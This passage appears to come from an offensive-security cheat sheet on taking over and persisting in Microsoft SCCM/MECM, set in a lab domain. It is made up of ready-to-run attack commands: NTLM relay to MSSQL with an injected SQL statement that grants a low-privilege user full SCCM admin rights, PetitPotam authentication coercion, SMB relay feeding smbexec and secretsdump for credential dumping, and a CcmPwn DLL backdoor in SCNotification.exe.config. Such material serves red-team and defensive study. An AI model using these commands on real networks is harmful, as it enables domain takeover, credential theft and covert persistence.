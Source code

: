 ### TAKEOVER1 - Low Privileges to Database Administrator - MSSQL relay

**Requirements**:

* Database separated from the site server
* Server site is sysadmin of the database

**Exploitation**:

* Generate the query to elevate our user: `python3 sccmhunter.py mssql -u carol -p SCCMftw -d sccm.lab -dc-ip 192.168.33.10 -debug -tu carol -sc P01 -stacked`
* Setup a relay with the generated query: `ntlmrelayx.py -smb2support -ts -t mssql://192.168.33.12 -q "USE CM_P01; INSERT INTO RBAC_Admins (AdminSID,LogonName,IsGroup,IsDeleted,CreatedBy,CreatedDate,ModifiedBy,ModifiedDate,SourceSite) VALUES (0x01050000000000051500000058ED3FD3BF25B04EDE28E7B85A040000,'SCCMLAB\carol',0,0,'','','','','P01');INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'SCCMLAB\carol'),'SMS0001R','SMS00ALL','29');INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'SCCMLAB\carol'),'SMS0001R','SMS00001','1'); INSERT INTO RBAC_ExtendedPermissions (AdminID,RoleID,ScopeID,ScopeTypeID) VALUES ((SELECT AdminID FROM RBAC_Admins WHERE LogonName = 'SCCMLAB\carol'),'SMS0001R','SMS00004','1');"`
* Coerce an authentication to your listener using a domain account: `petitpotam.py -d sccm.lab -u carol -p SCCMftw 192.168.33.1 192.168.33.11`
* Finally, connect as admin on the MSSQL server: `python3 sccmhunter.py admin -u carol@sccm.lab -p 'SCCMftw' -ip 192.168.33.11`

### TAKEOVER2 - Low Privileges to MECM Admin Account - SMB relay

Microsoft requires the site server's computer account to be an administrator on the MSSQL server.

**Exploitation**:

* Start a listener for the MSSQL Server: `ntlmrelayx -t 192.168.33.12 -smb2support -socks`
* Coerce an authentication from the Site Server using domain credentials (low privileges SCCM NAA retrieved on the same machine works great): `petitpotam.py -d sccm.lab -u sccm-naa -p 123456789 192.168.33.1 192.168.33.11`
* Finally use the SOCKS from `ntlmrelayx` to access the MSSQL server as a local administrator

    ```ps1
    proxychains -q smbexec.py -no-pass SCCMLAB/'MECM$'@192.168.33.12 
    proxychains -q secretsdump.py -no-pass SCCMLAB/'MECM$'@192.168.33.12 
    ```

## SCCM Persistence

* [mandiant/CcmPwn](https://github.com/mandiant/CcmPwn) - lateral movement script that leverages the CcmExec service to remotely hijack user sessions.

CcmExec is a service native to SCCM Windows clients that is executed on every interactive session. This technique requires Adminsitrator privileges on the targeted machine.

* Backdoor the `SCNotification.exe.config` to load your DLL

    ```ps1
    python3 ccmpwn.py domain/user:password@workstation.domain.local exec -dll evil.dll -config exploit.config
    ```
